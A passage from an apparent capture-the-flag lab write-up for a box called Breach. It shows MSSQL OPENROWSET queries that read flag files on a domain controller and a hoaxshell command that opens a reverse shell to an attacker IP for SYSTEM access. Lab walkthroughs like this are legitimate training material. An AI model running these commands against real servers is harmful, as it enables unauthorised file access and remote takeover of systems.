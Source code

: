 Now we have code execution.

Now we can also read system files since the MSSQL server is running on the DC.

Lets read the root.txt

```sql
SELECT * FROM OPENROWSET(BULK N'C:/users/administrator/desktop/root.txt', SINGLE_CLOB) AS Contents
```

![image.png](/assets/images/Breach_VL/image%2026.png)

Lets now read the user.txt

```sql
SELECT * FROM OPENROWSET(BULK N'C:/share/transfer/julia.wong/user.txt', SINGLE_CLOB) AS Contents
```

![image.png](/assets/images/Breach_VL/image%2027.png)

We can root this box this way !

But lets try to get a shell on the box as an administrator.

### Shell as SYSTEM

We have already enabled the xp_cmdshell on the box and we have code execution.

Using hoaxshell to get a shell on the box.

```bash
/opt/hoaxshell/hoaxshell.py -s 10.10.14.87 -p 9002
```
